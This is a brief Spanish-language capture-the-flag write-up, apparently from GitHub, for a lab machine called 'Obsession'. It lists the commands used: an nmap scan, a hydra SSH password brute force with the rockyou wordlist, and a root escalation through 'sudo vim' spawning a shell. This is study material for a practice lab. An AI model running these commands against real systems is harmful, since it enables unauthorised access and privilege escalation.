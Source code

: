 Maquina: Obsession
Autor: Juan
Dificultad: Muy Facil
![Screenshot 2024-11-07 181430](https://github.com/user-attachments/assets/b8abf977-b39a-4d6e-9c3d-12cab1d42aae)

ping 172.17.0.2 -c 1
![Screenshot 2024-11-07 182037](https://github.com/user-attachments/assets/45c14360-6874-479c-a2ef-cc75d685ec30)

sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oN Escaneo
Vemos el puerto 80 abierto
![Screenshot 2024-11-07 182126](https://github.com/user-attachments/assets/5bc47602-d98d-4fd0-b57b-908ee60e5b8e)

miramos la web https:172.17.0.2
miramos el codigo y encontramos un posible usuario
![Screenshot 2024-11-07 182156](https://github.com/user-attachments/assets/a17c9e89-b4f5-4d03-a4eb-bd067743a58b)

sudo hydra -l russoski -P /usr/share/wordlists/rockyou.txt.gz ssh://172.17.0.2
![Screenshot 2024-11-07 182316](https://github.com/user-attachments/assets/74a9ad85-b61d-4661-b041-83ff2777f086)

ssh russoski@172.17.0.2
![Screenshot 2024-11-07 182503](https://github.com/user-attachments/assets/2be18b34-55e6-48b2-8da5-5ac15476a88a)

sudo -l
y encontramos que podemos ejecutar vim como root

sudo vim -c ':!/bin/sh'
whoami
![Screenshot 2024-11-07 182539](https://github.com/user-attachments/assets/d09fcdcc-86cf-4b7a-b90d-0f69d456fd65)
